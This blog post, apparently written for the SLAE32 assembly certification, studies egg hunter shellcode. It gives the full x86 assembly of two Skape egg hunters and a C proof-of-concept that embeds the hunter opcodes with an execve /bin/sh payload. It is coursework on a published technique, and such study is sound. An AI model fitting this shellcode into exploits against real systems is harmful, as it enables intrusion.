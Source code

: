 ```yaml
---
layout: post
title: SLAE 3 - Egg Hunter shellcode
---
```



<!-- ![_config.yml]({{ site.baseurl }}/https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/config.png) -->

# Assignment #3: Egg Hunter shellcode


Link: [https://github.com/ricardojoserf/slae32/tree/master/a3_Egg_Hunter](https://github.com/ricardojoserf/slae32/tree/master/a3_Egg_Hunter)

The guide for this assignment is:

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


---------------------------------------------------


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice. The technique is based on the system calls, given they can "*validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*", using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/1.png)


### Egghunter 1

From the code in page 8 it is possible to extract the first egghunter, with a size of 39 bytes and an estimated speed in the paper of 8 seconds:

```assembly
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx; $edx = Size 4096 bytes
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

This code uses a "page size" of 4096 bytes (0x0fff + 0x0001 = 0x1000 or 4096) which is set in EDX register, EBX register contains the address to validate (current address of EDX plus 4) and EAX contains the value needed for the access system call (0x21). After the system call, EAX is compared with 0xf2 (which represents EFAULT), if the comparison is not met the address value is checked agaisnt the "egg" value twice, contained in EBX register (given the registers value is stored before the system call and restored before checking the address against the "egg" using *pusha* and *popa*).

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/2.png)




### Egghunter 2

From the code in page 11 it is possible to extract the second egghunter, with a size of 35 bytes (so it is smaller than the previous one) and an estimated speed in the paper of 7,5 seconds (so it is faster):

```assembly
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```
In this second shellcode the great difference is the "egg" comparison, because in this case an IA32 native instruction named *scasd* is used, allowing to use an smaller number of opcodes for the comparison.

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise. As it can be seen, the payload can be easily configured:


```cpp
#include <stdio.h>
#include <string.h>
// TAG or EGG is defined in here
#define egg "\x90\x50\x90\x50"

// unsigned char egghunter[] = EGGHUNTER
unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
// unsigned char shellcode[] = egg egg PAYLOAD
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879



---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
